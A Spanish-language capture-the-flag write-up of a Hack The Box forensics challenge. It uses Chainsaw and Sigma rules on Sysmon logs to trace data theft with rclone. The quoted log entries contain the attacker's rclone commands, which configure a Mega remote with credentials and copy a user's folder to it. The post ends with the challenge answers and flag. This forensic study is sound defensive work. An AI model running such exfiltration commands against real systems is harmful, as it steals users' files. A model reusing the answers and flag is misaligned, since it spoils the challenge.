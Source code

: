```yaml
---
layout: single
title: Packet Cyclone - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el quinto desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad fácil y consiste en analizar un archivo de registro de eventos de Windows (.evtx) generado por el servicio Sysmon. En este archivo se registra la ejecución sospechosa del software Rclone a través de la línea de comandos en un equipo con Windows. Nuestra tarea consiste en responder todas las preguntas solicitadas para que la plataforma de HTB nos entregue la flag del desafío."
date: 2023-03-22
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - chainsaw
  - sigma rules
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** easy

## Enunciado

_El amigo y socio de Pandora, Wade, es quien dirige la investigación sobre la ubicación de la reliquia. Recientemente, notó un tráfico extraño proveniente de su host. Eso lo llevó a creer que su host estaba comprometido. Después de una rápida investigación, se confirmó su temor. Pandora intenta ahora ver si el atacante provocó el tráfico sospechoso durante la fase de exfiltración. Pandora cree que el actor malicioso usó rclone para filtrar la investigación de Wade a la nube. Usando la herramienta llamada "chainsaw" y las reglas sigma provistas, ¿puede detectar el uso de rclone de los registros de eventos producidos por Sysmon? Para obtener la bandera, debe iniciar y conectarse al servicio docker y responder todas las preguntas correctamente._

## Archivos del desafio

Se nos entrega un archivo comprimido en formato `.zip`, que contiene una carpeta de registro de logs de Windows con 149 archivos `.evtx`, así como una segunda carpeta llamada `sigma_rules`, que contiene dos reglas sigma en formato `.yaml`. El objetivo de este desafío es utilizar la herramienta `chainsaw`, junto con las reglas sigma, para analizar todos los archivos `.evtx` de Windows y encontrar la ejecución sospechosa del software Rclone. Parece ser que este software ha sido utilizado para exfiltrar información de una computadora previamente comprometida.

La herramienta `chainsaw` esta disponible para `Linux` y `Windows` en su repositorio de [GitHub](https://github.com/WithSecureLabs/chainsaw).

En mi caso, utilizaré la versión para Linux de la herramienta `chainsaw`, y solo trabajaré con los registros presentes en el archivo `Microsoft-Windows-Sysmon Operational.evtx`. Seguiré esta arquitectura de archivos específica según lo indicado en el enunciado del desafío:
```
❯ tree
.
├── chainsaw
│   ├── chainsaw
│   ├── LICENCE
│   ├── mappings
│   │   ├── sigma-event-logs-all.yml
│   │   ├── sigma-event-logs-legacy.yml
│   │   └── sigma-mft-logs-all.yml
│   └── README.md
├── Logs
│   └── Microsoft-Windows-Sysmon%4Operational.evtx
└── sigma_rules
    ├── rclone_config_creation.yaml
    └── rclone_execution.yaml

5 directories, 9 files
```

## Chainsaw

Tal como se indica en su repositorio de GitHub, `Chainsaw` proporciona una potente capacidad de "primera respuesta" para identificar rápidamente amenazas dentro de los artefactos forenses de Windows, como los archivos `.evtx` ubicados en la ruta `C:\Windows\System32\winevt\Logs`. `Chainsaw` ofrece un método genérico y rápido para buscar palabras clave en los registros de eventos y detectar amenazas mediante la integración incorporada de las reglas de detección de Sigma y las reglas de detección personalizadas de `Chainsaw`.

En este caso, el desafío ya nos proporciona las reglas Sigma que utilizaremos, las cuales se encuentran en la carpeta `sigma_rules`. Al ejecutar la herramienta a través de la interfaz de línea de comandos (CLI), el comando se vería de la siguiente manera:
```
❯ ./chainsaw hunt ../Logs -s ../sigma_rules --mapping mappings/sigma-event-logs-all.yml
```

El comando anterior indica a la herramienta `Chainsaw` que se ejecute en modo `hunt` sobre todos los archivos dentro de la carpeta `Logs`. Luego, utiliza todas las reglas sigma proporcionadas en el desafío para la lógica de detección, y por último, utiliza el archivo `sigma-event-logs-all.yml` para el análisis de los registros.

Luego de ejecutar el comando, la salida se verá de la siguiente manera:
![](/assets/images/htb-cyber-apocalypse-packet-cyclone/chainsaw.png)

Y el detalle sería este:
```
CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI'
Company: https://rclone.org 
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v161.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D92B-63F8-B100-000000000900
ProcessId: 3820
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:07.336


CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
Company: https://rclone.org
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
ProcessId: 5116
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:17.516
```

Con toda la información anterior, ya podemos conectarnos al contenedor Docker de HTB y responder las siguientes preguntas.

# Preguntas

1. ¿Cuál es el correo electrónico del atacante utilizado para el proceso de exfiltración? (por ejemplo: nombre@email.com)
Si observamos los detalles encontrados por la herramienta `Chainsaw`, podemos ver que se ha ejecutado el siguiente comando a través de PowerShell:
```
rclone.exe config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI
```
Respuesta: majmeret@protonmail.com

2. ¿Cuál es la contraseña del atacante utilizada para el proceso de exfiltración?
En el comando anterior, también se puede observar esta respuesta:
`Respuesta: FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI`

3. ¿Cuál es el proveedor de almacenamiento en la nube que utiliza el atacante?
Esta respuesta la deduje por descarte, en un principio intenté encontrar alguna URL u otra pista que indicara el proveedor de nube, pero en realidad es tan simple como observar que en el comando anterior se menciona el servicio de Mega.
`Respuesta: mega`

4. ¿Cuál es el ID del proceso utilizado por los atacantes para configurar su herramienta?
Al observar los detalles de las dos detecciones encontradas por Chainsaw, podemos identificar que la primera detección corresponde a la configuración y la segunda detección corresponde a la exfiltración. Por lo tanto, el ID de proceso de la configuración es 3820.
`Respuesta: 3820`

5. ¿Cuál es el nombre de la carpeta que exfiltro el atacante? proporcionar la ruta completa.
Para responder a esta pregunta, debemos examinar el detalle de la segunda detección, que corresponde al proceso de exfiltración. En este caso, se ha ejecutado el siguiente comando a través de PowerShell:
```
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
```
`Respuesta: C:\Users\Wade\Desktop\Relic_location`


6. ¿Cuál es el nombre de la carpeta a la que el atacante extrajo los archivos?
En el comando anterior, podemos observar que el destino es `remote:exfiltration`, lo que indica que el nombre de la carpeta es `exfiltration.`

Luego de responder estas seis simples preguntas, el contenedor Docker de HTB nos proporcionará la flag.}

## Flag

**HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}**

